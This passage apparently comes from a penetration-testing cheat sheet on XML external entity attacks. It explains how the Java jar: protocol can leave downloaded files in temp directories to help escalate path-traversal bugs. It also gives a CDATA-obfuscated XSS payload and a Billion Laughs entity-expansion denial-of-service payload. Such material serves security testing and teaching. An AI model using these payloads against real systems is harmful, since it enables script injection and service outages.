 ### Jar: protocol

The `jar` protocol is only available on **Java applications**. It allows to access files inside a **PKZIP** file \(`.zip`, `.jar`, ...\) and works for local and remote files:

```text
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

{% hint style="danger" %}
To be able to access files inside PKZIP files is s**uper useful to abuse XXE via system DTD files.** Check t[his section to learn how to abuse system DTD files](xxe-xee-xml-external-entity.md#error-based-system-dtd).
{% endhint %}

#### Behind the scenes

1. It makes an HTTP request to load the zip archive. `https://download.host.com/myarchive.zip`
2. It saves the HTTP response to a temporary location. `/tmp/...`
3. It extracts of the archive.
4. It reads the `file.zip`
5. It delete temporary files.

Note that it's possible to stop the flow in the second step. The trick is to never close the connection when serving the file. [This tools can be useful](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution): one in python `slow_http_server.py` and one in java`slowserver.jar`.

Once the server has downloaded your file, you need to find its location by browsing the temp directory. Being random, the file path can't be predict in advance.

![Jar](https://gosecure.github.io/xxe-workshop/img//74fac3155d455980.png)

{% hint style="danger" %}
Writing files in a temporary directory can help to e**scalate another vulnerability that involves a path traversal** \(such as local file include, template injection, XSLT RCE, deserialization, etc\).
{% endhint %}

### XSS

```markup
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### DoS

#### Billion Laugh Attack

```markup
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
